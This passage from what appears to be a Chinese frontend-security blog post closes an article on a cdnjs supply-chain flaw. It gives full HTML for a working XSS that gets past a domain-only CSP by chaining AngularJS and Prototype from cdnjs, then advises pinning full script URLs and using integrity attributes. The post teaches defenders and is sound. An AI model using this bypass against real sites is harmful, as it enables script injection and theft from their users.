假設我們現在的 CSP 只允許 `https://cdnjs.cloudflare.com`，該怎麼繞過呢？我找到這兩個很棒的資源：
1. [Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)
2. [H5SC Minichallenge 3: "Sh＊t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)

只要利用 AngularJS + Prototype 這兩個 library，就可以在符合 CSP（只引入 cdnjs 底下的腳本）的情況下進行 XSS，我做了一個簡單的 demo：https://aszx87410.github.io/demo/csp_bypass/cdnjs.html

完整程式碼如下：

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>CSP bypass</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src https://cdnjs.cloudflare.com">
  </head>
  <body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
    <div ng-app ng-csp>
      { $on.curry.call().alert('xss') }}
    </div>
  </body>
</html>
```

想要避免這種 CSP bypass，就只能把 CSP 中 cdnjs 的路徑寫死，把整個腳本的 URL 寫上去，而不是只寫 domain。否則，這類型的 CSP 其實會幫助攻擊者更容易突破 CSP 的限制，進而執行 XSS 攻擊。

## 總結

攻擊手法千千百百種，發現 cdnjs 漏洞的研究員近期鍾情於 supply chain attack，不只 cdnjs，連 [Homebrew](https://blog.ryotak.me/post/homebrew-security-incident-en/) 跟 [PyPI](https://blog.ryotak.me/post/pypi-potential-remote-code-execution-en/) 甚至是 [@types](https://blog.ryotak.me/post/definitelytyped-tamper-with-arbitrary-packages-en/) 也都被找到漏洞。

如果要直接在頁面上用 script 引入第三方的網址，記得先確認對方的網站是值得信任的，如果可以的話也請加上 integrity 屬性，避免檔案被竄改，連帶影響到自己的服務。也要注意 CSP 的設定，對於 cdnjs 這種網站，若是只設置 domain 的話，已經有了可行的繞過手法，在設置前請多加注意。


在談到前端的安全時，大家第一個會想到 XSS，第二個會想到 CSRF，然後可能就沒了。這篇文章希望藉由 cdnjs 的漏洞讓前端工程師們認識什麼是供應鏈攻擊。只要有意識到這個攻擊手法，日後在開發時就會多留意一些，就會注意到引入第三方 library 所帶來的風險。
